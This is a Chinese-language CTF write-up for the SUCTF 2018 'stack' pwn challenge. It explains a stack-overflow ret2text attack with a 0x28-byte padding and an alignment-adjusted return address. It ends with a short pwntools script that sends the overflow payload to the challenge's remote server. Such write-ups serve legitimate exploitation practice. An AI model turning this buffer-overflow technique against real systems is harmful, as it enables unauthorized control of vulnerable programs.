



## 基本信息

- 题目名称： [SUCTF 2018 招新赛]stack
- 题目链接： https://www.nssctf.cn/problem/2333
- 考点清单： 栈溢出，栈对齐
- 工具清单： 无
- payloads： 详见本文末尾

## 一、看到什么

### 第一轮

-   常规反汇编



## 二、想到什么解题思路

### 第一轮

-   **栈溢出+ret2text**

## 三、尝试过程和结果记录

### 第一轮

-   确定padding：**0x20+8 = 0x28**
-   确定addr（本题栈对齐，需要跳转至push后）：**0x40067a**
-   构造payload：



-   flag



## 四、Payload

```python
from pwn import *
lc = "./stack"
rmt = "node4.anna.nssctf.cn"
po = 28692

ELF(lc)
p = remote(rmt, po)

addr = 0x40067A
payload = b'A' * 0x28 + p64(addr)

p.sendline(payload)
p.interactive()
```

